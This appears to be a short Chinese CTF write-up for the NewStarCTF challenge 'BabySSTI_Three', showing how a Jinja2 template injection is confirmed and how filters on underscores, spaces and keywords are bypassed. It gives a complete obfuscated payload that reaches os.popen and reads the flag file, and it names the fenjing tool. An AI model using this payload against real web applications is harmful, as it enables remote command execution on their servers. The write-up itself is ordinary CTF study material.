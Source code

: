 ```yaml
---
title: '[NewStarCTF 公开赛赛道]BabySSTI_Three'
date: 2025-01-22 20:34:59
tags: ssti
categories: 刷题笔记
---
```


## [NewStarCTF 公开赛赛道]BabySSTI_Three

我们先看看是什么模版

```
?name={{7*7}}
```

![image-20250122204410941](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202501222044081.png)

我们猜测为jinjia2模版

经过测试，该题过滤了下划线，冒号和空格和class啥的关键字

空格我们用[]绕过，下滑线用16进制绕过

得到

```
payload：?name={{[]['\x5f\x5fcl''ass\x5f\x5f']['\x5f\x5fba''se\x5f\x5f']['\x5f\x5fsubc''lasses\x5f\x5f']()[117]['\x5f\x5fin''it\x5f\x5f']['\x5f\x5fglo''bals\x5f\x5f']['po''pen']('\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067\u005f\u0069\u006e\u005f\u0068\u0033\u0072\u0033\u005f\u0035\u0032\u0064\u0061\u0061\u0064').read()}}
```

得到flag

![image-20250122204715465](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202501222047581.png)

或者直接用fenjing一把梭也能得到flag

